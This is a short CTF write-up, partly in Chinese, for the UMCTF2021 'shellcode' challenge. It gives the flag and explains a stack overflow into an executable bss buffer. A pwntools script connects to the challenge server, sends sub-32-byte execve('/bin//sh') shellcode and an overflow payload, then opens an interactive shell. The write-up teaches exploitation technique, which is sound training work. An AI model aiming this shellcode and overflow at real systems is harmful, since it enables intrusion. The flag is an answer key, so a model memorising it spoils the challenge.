

# UMCTF2021 - shellcode

- Write-Up Author: aYoung \[[Merak天璇 20级](https://we.buptmerak.cn/)\]

- Flag:MOCSCTF{f1nd_7h3_w4y_70_y0ur_5h3llc0d3@merak}

## **Question:**
shellcode
[shellcode](./bin/pwn_64)
## Write up

---
第二次输入时存在栈溢出  
同时发现name变量位于bss段  
检查保护机制，发现nx没开  
同时通过vmmap可以看到bss段可读可写可执行  
所以可以第一次输入shellcode，第二次通过栈溢出返回到bss段上来执行shellcode 这里shellcode的长度有所限制，需要小于32字节。直接使用pwntools生成的shellcode44字节无法使用

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
#r = process('./bin/pwn_64')
r=remote("52.175.52.175","39006")
shellcode = asm(
'''
xor 	rsi,	rsi			
push	rsi				
mov 	rdi,	0x68732f2f6e69622f	 
push	rdi
push	rsp		
pop	rdi				
mov 	al,	59			
cdq					
syscall
'''
)

r.recvuntil("what's your name?")
r.sendline(shellcode)
r.recvuntil("what do you want?")
payload = b'a'*0x30 + p64(0x0400737) + p64(0x06010A0)
r.send(payload)
r.interactive()
```